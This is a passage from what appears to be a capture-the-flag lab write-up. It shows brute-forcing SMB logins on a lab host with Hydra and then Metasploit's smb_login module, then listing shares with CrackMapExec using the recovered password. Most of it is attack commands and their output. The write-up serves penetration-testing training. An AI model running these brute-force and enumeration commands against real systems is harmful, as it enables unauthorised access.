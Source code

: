 4. Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
```c
hydra -L username.list -P password.list smb://10.129.212.54
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-11 21:48:37
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 21112 login tries (l:104/p:203), ~21112 tries per task
[DATA] attacking smb://10.129.212.54:445/
[ERROR] invalid reply from target smb://10.129.212.54:445/

```
So Error here is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile hydra or use another very powerful tool, the Metasploit framework.
```c
msfconsole -q         
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/smb/smb_login
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> set user_file username.list
user_file => username.list
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> set pass_file password.list
pass_file => password.list
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> set rhosts 10.129.212.54
rhosts => 10.129.212.54
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> 
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> run

[*] 10.129.212.54:445     - 10.129.212.54:445 - Starting SMB login bruteforce

- SNIP -
- 
[+] 10.129.212.54:445     - 10.129.212.54:445 - Success: '.\cassie:12345678910'
```

```c
crackmapexec smb 10.129.212.54 -u "cassie" -p "12345678910" --shares
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Copying default configuration file
SMB         10.129.212.54   445    WINSRV           [*] Windows 10.0 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.212.54   445    WINSRV           [+] WINSRV\cassie:12345678910 
SMB         10.129.212.54   445    WINSRV           [*] Enumerated shares
SMB         10.129.212.54   445    WINSRV           Share           Permissions     Remark
SMB         10.129.212.54   445    WINSRV           -----           -----------     ------
SMB         10.129.212.54   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.212.54   445    WINSRV           C$                              Default share
SMB         10.129.212.54   445    WINSRV           CASSIE          READ,WRITE      
SMB         10.129.212.54   445    WINSRV           IPC$            READ            Remote IPC
```
